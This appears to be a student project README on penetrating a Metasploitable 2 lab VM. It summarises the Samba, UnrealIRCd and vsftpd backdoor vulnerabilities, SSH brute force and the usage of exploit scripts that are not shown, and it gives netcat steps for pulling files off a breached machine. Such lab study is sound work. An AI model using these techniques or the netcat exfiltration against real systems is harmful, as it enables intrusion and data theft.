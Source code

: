 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/). I have included four python scripts to explore four of the vulnerabilities present on the test environment. Once each script is run (following the proper execution) the user will have full access to the remote system.

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding for learning about system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I have created python scripts to do it instead. Doing this helps to gain a detailed explanation as to what is going on behind each exploit attempt. By viewing the documented python code, the user should have a further understanding of system security.

## System Requirements:
- Metasploitable 2
- Virtualbox 

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol .
- Exploit: If Samba is configured to use the non-default username map script, anyone can send arbitrary commands in disguise as a username to the server. The command will then be run without needing authorization.

### UnrealRCD CVE-2010-2075
- Version: 3.2.8.1 
- Desc: UnrealRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealRCD contains an exploit where it will execute any command send to the service if it begins with the string 'AB'. Ex: AB; [command to run]

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Desc: VSFTP is an FTP server for linux. 
- Exploit: The exploit occurs when a user tries to login with a username that ends with ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any.
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security. Users can prevent brute force attacks by incorporating a proper firewall to filter out ip addresses, using public key authentication, using strong and unqiue passwords, etc....

## Payload Examples:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
 - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
 - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
- Samba:
  - Python3 samba.py
  - [RHOST] [RPORT] [LHOST] [LPORT]
- SSH:
 - Python3 sshBruteForce.py
   - "[RHOST]"
   - "[RPORT]"
- UnrealRCD:
  - Python3 unrealIRCD.py
  - [RHOST] [RPORT] [LHOST] [LPORT]
- VSFTP:
  - Python3 ftpExploit.py
  - [RHOST] [RPORT] [COMMAND]